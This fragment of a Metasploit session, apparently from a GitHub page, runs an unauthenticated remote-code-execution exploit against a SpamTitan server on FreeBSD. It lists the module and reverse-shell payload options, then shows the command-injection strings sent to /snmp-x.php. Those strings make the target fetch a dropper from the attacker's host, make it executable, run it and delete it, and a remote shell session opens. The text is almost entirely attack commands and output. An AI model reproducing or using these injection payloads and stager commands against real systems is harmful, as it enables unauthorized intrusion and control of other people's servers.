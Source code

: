 ```
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   FreeBSD Dropper (x86)

msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/EtQflZ
[*] Local IP: http://192.168.1.75:8080/EtQflZ
[*] Generated command stager: ["fetch -qo /tmp/uTJGnSFj http://172.16.60.1:8080/EtQflZ", "chmod +x /tmp/uTJGnSFj", "/tmp/uTJGnSFj", "rm -f /tmp/uTJGnSFj"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/uTJGnSFj\ http://172.16.60.1:8080/EtQflZ&'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Client 172.16.60.101 (fetch libfetch/2.0) requested /EtQflZ
[*] Sending payload to 172.16.60.101 (fetch libfetch/2.0)
[+] SNMP Get-Request response (status=noError): [1] 16656
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'chmod\ \+x\ /tmp/uTJGnSFj&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16685
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c '/tmp/uTJGnSFj&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16714
[*] Command shell session 3 opened (172.16.60.1:4444 -> 172.16.60.101:45568) at 2020-10-28 15:58:09 +0100
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'rm\ -f\ /tmp/uTJGnSFj&'#
[*] Send an SNMP Get-Request to trigger the payload
```